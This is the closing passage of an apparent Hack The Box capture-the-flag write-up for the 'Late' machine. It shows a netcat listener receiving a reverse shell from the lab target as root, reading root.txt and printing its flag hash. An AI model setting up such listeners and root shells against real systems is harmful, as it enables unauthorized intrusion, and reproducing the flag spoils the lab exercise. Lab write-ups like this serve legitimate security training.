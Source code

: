 ```shell
root@rE3oN:~/enum-more/obsidian_vault/htb/LINUX/late# rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.41] from (UNKNOWN) [10.10.11.156] 40086
bash: cannot set terminal process group (23686): Inappropriate ioctl for device
bash: no job control in this shell
id
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cd /root
ls
ls
root.txt
scripts
cat root.txt
cat root.txt
68de8b756b60a756971e83b4fc71cede
root@late:/root#
```

## Conclusion

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/htb/LINUX/late/assets/images/pwned.png" />
</center>

